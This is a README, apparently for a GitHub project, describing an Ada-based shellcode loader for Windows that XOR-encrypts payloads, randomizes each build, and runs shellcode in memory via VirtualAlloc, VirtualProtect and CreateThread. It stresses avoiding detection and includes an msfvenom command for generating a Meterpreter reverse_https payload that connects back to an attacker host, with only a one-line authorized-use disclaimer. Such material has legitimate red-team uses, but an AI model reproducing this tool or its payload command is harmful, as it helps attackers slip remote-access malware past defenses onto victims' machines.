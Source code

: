 # Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time


## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.
